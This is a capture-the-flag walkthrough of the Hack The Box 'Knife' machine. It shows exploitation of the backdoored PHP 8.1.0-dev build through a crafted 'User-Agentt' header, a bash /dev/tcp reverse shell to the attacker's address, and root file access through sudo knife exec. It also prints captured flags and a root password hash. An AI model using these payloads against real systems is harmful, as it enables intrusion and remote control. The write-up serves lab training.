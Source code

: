 #Knife
Difficulty: Easy 	IP: 10.10.10.242

Saved the IP with domain as knife.htb in /etc/hosts.
Scanned the IP with rustscan and fot 22 and 80 open ports.
Got an entry point fron nikto scan: PHP 8.1.0-dev
Searched for its exploit and got it(https://github.com/fahmifj/php-zerodium-rce/blob/main/zerodiumRCE.py).

## User.txt

From this exploit, I ran:
```
python3 foothold.py http://knife.htb/
```

Got a shell as james. User.txt was in his home directory.


```
bbda296ff7e4f54843a3b7b49498f0c2
```

This was not a complete stable shell. To get a stable shell, I used this article(https://blog.csdn.net/qq_44159028/article/details/116992989).
Sent a request from browser to brupsuite and added a header to it.

```
User-Agentt: zerodiumsystem("bash -c 'exec bash -i /dev/tcp/10.10.14.28/4444 0>&1'");
```

And got a reverse shell as james.

## Root.txt

On running sudo -l, I came to know that we can run /usr/bin/knife as root.
When I ran it and saw help, I came to know how we can execute any command.

```
sudo /usr/bin/knife exec /path/to/ruby-script
```

I got the root.txt without actually getting root shell by creating a ruby script in local machine:

```
system('cat /root/root.txt')
```

Transfered it to target machine in james home directory.
Ran the script as:

```
sudo /usr/bin/knife exec ~/root.rb
```

```
a3aefe87f88ec3f8d683381c3af56f8d
```

## Root hash
```
$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1
```